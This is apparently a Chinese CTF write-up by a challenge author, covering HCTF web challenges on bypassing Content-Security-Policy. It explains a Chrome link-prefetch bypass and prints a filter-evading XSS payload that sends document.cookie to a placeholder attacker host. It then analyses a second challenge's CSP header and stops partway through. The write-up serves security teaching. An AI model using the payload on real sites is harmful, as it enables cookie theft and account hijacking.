 上面几种思路类似，通过构造新开页面或者跳转来解决域限制，由于js可以任意构造，所以这里也就通过特别的方式绕过了原本的限制。

## chrome对CSP支持的不完整绕过 ##

这种也就是我出题的本意，从文章中可以获得对漏洞的整体了解，主要是2篇

[http://paper.seebug.org/91/](http://paper.seebug.org/91/)

当然我自己也写了分析文章
[http://lorexxar.cn/2016/10/28/csp-then/](http://lorexxar.cn/2016/10/28/csp-then/)

这里我的后台bot使用的也正是chrome浏览器，由于浏览器对CSP特性支持的不完整，导致link标签的白名单特性存在跨域请求的能力，所以构造payload

```
<Scscriptript>var n0t = document.createElement("liscriptnk");n0t.setAttribute("rel", "prefetch");n0t.setAttribute("href", "//xxx:2333/" + document.cookie);document.head.appendChild(n0t);</Scscriptript>
```

后面xss平台或者vps接受一发搞定

# secret area #

打开页面发现了聊天版性质的站，进出找一找发现有这么几个功能：

注册->登陆->可以修改个人信息河头乡->向任何人留言

稍微测试，不难发现
```
Content-Security-Policy:default-src 'self'; script-src http://sguestbook.hctf.io/static/ 'sha256-n+kMAVS5Xj7r/dvV9ZxAbEX6uEmK+uen+HZXbLhVsVA=' 'sha256-2zDCsAh4JN1o1lpARla6ieQ5KBrjrGpn0OAjeJ1V9kg=' 'sha256-SQQX1KpZM+ueZs+PyglurgqnV7jC8sJkUMsG9KkaFwQ=' 'sha256-JXk13NkH4FW9/ArNuoVR9yRcBH7qGllqf1g5RnJKUVg=' 'sha256-NL8WDWAX7GSifPUosXlt/TUI6H8JU0JlK7ACpDzRVUc=' 'sha256-CCZL85Vslsr/bWQYD45FX+dc7bTfBxfNmJtlmZYFxH4=' 'sha256-2Y8kG4IxBmLRnD13Ne2JV/V106nMhUqzbbVcOdxUH8I=' 'sha256-euY7jS9jMj42KXiApLBMYPZwZ6o97F7vcN8HjBFLOTQ=' 'sha256-V6Bq3u346wy1l0rOIp59A6RSX5gmAiSK40bp5JNrbnw='; font-src http://sguestbook.hctf.io/static/ fonts.gstatic.com; style-src 'self' 'unsafe-inline'; img-src 'self'
```

CSP限制的域差不多符合以下几个条件:
1、script没有开启unsafe-inline，也就是说不允许内联脚本
2、script只允许static目录，但这个目录下内容不可控
3、style-src开启了unsafe-inline而且是self（这里其实是不小心的失误）
4、default-src为self，也就是站内请求都是被许可的

## 正解 ##

综合CSP的限制，我们需要回去想想题目中给的条件，有几个比较重要的。
1、static下不存在任何非静态文件，除了redirect.php
2、redirect.php的跳转位置可以自定义
3、我们上传的头像没有任何上传漏洞，上传位置是/upload/

这里先给出一篇文章
[http://lorexxar.cn/2016/10/31/csp-then2/](http://lorexxar.cn/2016/10/31/csp-then2/)

根据文章，我们不难发现，现在所有的条件都符合，如果顺着思路到这里，很容易就会想到下一步
